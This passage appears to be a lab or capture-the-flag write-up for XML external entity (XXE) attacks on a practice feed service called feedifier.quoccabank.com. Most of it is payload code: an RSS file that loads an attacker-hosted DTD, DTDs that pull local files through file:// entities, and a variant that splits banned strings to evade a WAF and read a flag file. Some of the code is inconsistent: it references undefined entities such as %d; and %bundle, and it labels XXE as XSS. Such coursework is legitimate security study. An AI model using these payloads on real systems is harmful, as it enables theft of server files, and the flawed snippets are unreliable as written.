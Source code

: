 **Proof of Concept - v2.feedifier.quoccabank.com**

The payload for v2.feedifier.quoccabank.com and its DTD is shown below. Here, we are loading an entity declared outside the scope of the XML file. This allows an attacker to bypass any WAF. 

*XSS File*

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title[<!ENTITY % load SYSTEM "<insert website here>/<external_dtd_path>.html"> %load;%bundle;] PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd" >
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&atak;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

*External DTD file*

```xml-dtd
<!ENTITY % beg "<![CDATA[">
<!ENTITY % payload SYSTEM "file://<insert file path>">
<!ENTITY % end "]]>">
<!ENTITY atak "%beg;%payload;%end;">
```

**Proof of Concept - v3.feedifier.quoccabank.com**

v3's exploit is identical to v2 with some changes in the DTD file to bypass the additional WAFs check. In the DTD file, we are breaking up the strings that are banned through the firewall.

```xml-dtd
<!ENTITY % beg "<![CDATA[">
<!ENTITY % end "]]>">

<!ENTITY % p1 "file">
<!ENTITY % p2 ":///fl">
<!ENTITY % p3 "ag_17cc6c717afdef0b7581ec95c47313d3">

<!ENTITY % combined "<!ENTITY payload SYSTEM '%p1;%p2;%p3;'>">
%combined;

<!ENTITY % bundle "<!ENTITY atak '%beg;%d;%end;'>">
```
